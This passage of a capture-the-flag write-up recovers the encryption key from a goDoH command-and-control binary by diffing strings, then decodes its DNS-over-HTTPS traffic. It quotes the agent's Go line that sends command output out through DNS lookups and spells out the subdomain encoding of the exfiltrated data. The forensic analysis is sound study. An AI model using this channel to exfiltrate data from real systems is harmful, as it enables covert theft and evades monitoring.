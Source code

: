 However, this does not work yet, because the key was changed for this challenge. The next step is to find the key from the binary. Since we know that the key is a 32 character hex-encoded string, we can just search for strings that match the regex `[0-9a-f]{32}`. 

But just doing `grep` is not good enough, because there are still many strings in the binary that satisfy this requirement. So, I built my own version of goDoH, with a key that stands out, e.g. `cafebabedeadbeef`. Then when I grep for strings that matched the regex, I can compare between the challenge version and my own version to determine which strings are common in both binaries.

After some searching, I found these parts

```diff
> ca-bundle.crt0123456789ABCDEFGHIJKLMNOPQRSTUV284217094304040074348449707031258a40cdd5c4608b251b2c5926270540dc: day-of-year does not match dayA DNS domain to use is required.ABCDEFGHIJKLMNOPQRSTUVWXYZ234567DNS provider `%s` is not valid.
< ca-bundle.crt0123456789ABCDEFGHIJKLMNOPQRSTUV28421709430404007434844970703125: day-of-year does not match dayA DNS domain to use is required.ABCDEFGHIJKLMNOPQRSTUVWXYZ234567DNS provider `%s` is not valid.

> UnreadRunebufio: tried to fill full buffercafebabeb00bbeefdeadbeefcafeb00bcannot represent time as UTCTimechacha20
< UnreadRunebufio: tried to fill full buffercannot represent time as UTCTimechacha20
```

The keys are in different locations of the binary but quite close to each other, and from the difference, I can deduce that `8a40cdd5c4608b251b2c5926270540dc` is likely the key used by the challenge. Gave it a try and it works.

```go
go version go1.13 linux/amd64
▶ go build
▶ ./main
cat flag/flag.txt
```

### decrypt output
Now I know the commands, I know I need to look at the packets after `cat flag/flag.txt` as they will contain the output of this command.

From `executeCommand` in [cmd/agent.go#L113-L150](https://github.com/sensepost/goDoH/blob/master/cmd/agent.go#L113-L150), the command output is sent back to the server through a DNSLookup of type A.

```go
response := dnsclient.Lookup(dnsProvider, fmt.Sprintf("%s.%s", r, dnsDomain), dns.TypeA)
```

And the code responsible for decoding this can be found in [dnsserver/server.go#L44-L209](https://github.com/sensepost/goDoH/blob/master/dnsserver/server.go#L44-L209) with references to functions from [utils/utils.go](https://github.com/sensepost/goDoH/blob/master/utils/utils.go).

In summary, the output will be contained in a series of DNS type A lookups of the form `id.prefix.xx.xx.xx.len.data1.data2.data3.dooh.aymind.com`, where
* `id` is the id given for this command
* `prefix` can be `be` denoting the start of the stream, `ef` denoting data, and `ca` denoting the end
* `data1`, `data2` and `data3` are present depending on the value of `len`
